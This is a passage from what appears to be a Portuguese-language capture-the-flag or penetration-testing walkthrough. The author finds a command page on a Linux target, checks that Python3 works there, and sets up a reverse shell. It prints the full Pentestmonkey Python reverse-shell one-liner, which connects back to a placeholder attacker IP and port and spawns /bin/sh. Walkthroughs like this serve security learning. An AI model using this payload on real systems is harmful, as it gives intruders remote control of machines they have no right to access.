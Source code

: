 No denied, não tinha nada demais, não vou colocar o print pois não havia nada.

Agora, iremos voltar para a página de comandos, ele está rodando Linux, ou seja, ele pode executar comandos e abrir portas, ou seja, nós podemos fazer um reverse secure shell. Vamos utilizar esse terminal para abrir o caminho para dentro do sistema, mas primeiro vamos testar para ver se ele nos dá permissão para fazer isso.

Após alguns testes, vemos que podemos usar o Python3 no terminal.

![](images/image18.png)

Então, vamos fazer um reverse secure shell, procurando um pouco, nós achamos o Python reverse shell no Pentestmonkey. - python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("SEU IP", PORTA PARA SE ABRIR));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

![](images/image19.png)
